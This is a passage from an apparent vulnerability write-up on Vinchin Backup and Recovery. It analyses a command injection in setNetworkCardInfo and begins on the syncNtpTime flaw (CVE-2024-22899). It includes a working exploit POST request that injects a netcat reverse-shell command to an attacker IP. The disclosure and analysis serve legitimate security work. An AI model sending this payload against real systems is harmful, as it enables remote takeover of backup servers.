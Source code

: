 4. **Executing Command**:
   The constructed path is used in a command to read network card configuration file contents:
   ```php
   $cmd = "cat " . $networkCardPath;
   exec($cmd, $info);
   ```
   The vulnerability arises here as the `exec` function is used to execute a command containing user-controlled input, leading to a command injection vulnerability.

#### Exploitation:

This vulnerability allows an attacker to inject commands via the `NAME` parameter.

#### Exploit Example:

An attacker can craft a POST request to exploit this vulnerability:

```http
POST /api/ HTTP/1.1
Host: [Vinchin Server IP]
Cookie: [Session Cookie]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

m=8&f=setNetworkCardInfo&p={"NAME":";nc -e /bin/bash 192.168.1.5 1338","other_params":"..."}
```

In this request, the attacker has appended a command (`nc -e /bin/bash 192.168.1.5 1338`) to the `NAME` parameter to open a reverse shell to the attacker's machine.

#### Conclusion:

The `setNetworkCardInfo` function's vulnerability highlights the dangers of using user-supplied input in system commands without proper validation and sanitization. This vulnerability poses a severe risk and can lead to total system compromise. 

Vinchin should prioritize fixing this vulnerability by implementing robust input validation mechanisms. Users of Vinchin Backup and Recovery should be vigilant and apply any provided patches or updates to mitigate this security risk.

---

### **Deep Dive into the syncNtpTime Function Vulnerability in Vinchin Backup and Recovery (CVE-2024-22899)**

![](/vinchin-backup-rce-chain-2024/syncNtpTime.png)

### Vulnerability Overview:

The `syncNtpTime` function in Vinchin Backup and Recovery's `SystemHandler.class.php` file presents a critical vulnerability. This function is intended for synchronizing the system's time with an NTP (Network Time Protocol) server.

### Function Analysis:

**Function Prototype**:
```php
public function syncNtpTime($params)
```
